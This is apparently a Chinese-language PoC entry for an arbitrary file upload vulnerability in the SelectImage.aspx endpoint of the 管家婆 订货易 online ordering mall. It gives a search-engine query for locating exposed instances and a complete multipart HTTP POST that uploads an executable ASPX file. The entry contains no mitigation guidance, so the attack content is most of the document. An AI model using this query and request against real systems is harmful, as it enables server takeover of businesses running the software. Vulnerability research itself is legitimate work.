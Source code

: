 # 

# 任我行 管家婆 订货易在线商城 SelectImage.aspx 任意文件上传漏洞

## 漏洞描述

任我行率先针对中小企业推出了管家婆进销存、财务一体化软件。

管家婆订货易在线商城存在 SelectImage.aspx 任意文件上传漏洞，攻击者可通过该漏洞可控制整个系统，最终导致系统处于极度不安全状态。

## 漏洞影响

管家婆 订货易在线商城

## 网络测绘

```
title="订货易"
```

## 漏洞复现

登陆页面

![image-20231115102159123](images/image-20231115102159123.png)

poc

```
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```

![image-20231115102227428](images/image-20231115102227428-17000150119182.png)
